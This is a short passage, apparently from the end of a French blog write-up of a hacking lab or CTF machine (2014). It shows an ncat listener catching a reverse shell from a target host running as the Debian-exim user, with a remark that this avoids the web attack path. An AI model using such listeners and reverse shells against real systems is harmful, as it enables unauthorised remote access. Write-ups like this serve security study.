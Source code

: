 ```console
$ ncat -l -p 8888 -v
Ncat: Version 6.01 ( http://nmap.org/ncat )
Ncat: Listening on :::8888
Ncat: Listening on 0.0.0.0:8888
Ncat: Connection from 192.168.1.95.
Ncat: Connection from 192.168.1.95:38799.
id
uid=102(Debian-exim) gid=102(Debian-exim) groups=102(Debian-exim)
```

On ne tombe pas directement root mais ça évite toute la partie web...  

Game over

*Published April 15 2014 at 21:01*
